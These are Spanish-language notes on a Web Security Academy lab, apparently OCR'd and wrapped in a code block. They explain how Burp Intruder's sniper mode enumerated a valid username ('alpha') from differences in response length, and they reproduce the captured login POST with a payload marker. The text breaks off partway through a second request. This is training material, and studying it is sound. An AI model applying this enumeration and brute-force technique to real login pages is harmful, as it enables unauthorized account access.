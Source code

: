 ```python
PAUTAS IMPORTANTES A VER:


HTTP/2 200 OK

Content-Length: 3140

<p class=is-warning>Invalid username</p>






USAMOS INTRUDER SOBRE LA SOLISITUD DEL LOGIN PARA HACERLO MAS RAPIDO ; APLICANDO FUERZA BRUTA SOLO SOBRE EL USUARIO Y DE CONTRASEÑA CUALQUIER COSA POR QUE SI NO TE DICE "MISSING PARAMETROS SI FALTA ALGUNO DE LOS DOS", Y DETERMINANDO POR UN LENGH DIFERENTE Y MENSAJE EN LA RESPONSE "INCORECTO PASSWORD" VIMOS QUE EL USUARIO ES ALPHA CON UN LENGH DE 3250 a diferencia del resto 3248, TODAS TENIAN CODIGO DE ESTADO 200, LUEGO DE FINALIZAR FUERZA BRUTA CON LA LISTA DE PALABRAS USANDO SNIPER DE INTRUDER:



FUERZA BRUTA DEL POST DEL LOGIN INTRUDER SOBRE SUARIO USANDO SNIPER:



POST /login HTTP/1.1
Host: 0ae80007045692bb80d78ae80012009a.web-security-academy.net
Cookie: session=xgGiuob4Y682GN1VsK8Zk4edcSG5ZXJ8
Content-Length: 55
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Origin: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae80007045692bb80d78ae80012009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
Connection: close

username=§USER§&password=XXXXXXXXXXXXXXXXXXXXD




REQUEST:


POST /login HTTP/2
Host: 0ae80007045692bb80d78ae80012009a.web-security-academy.net
Cookie: session=xgGiuob4Y682GN1VsK8Zk4edcSG5ZXJ8
Content-Length: 45
```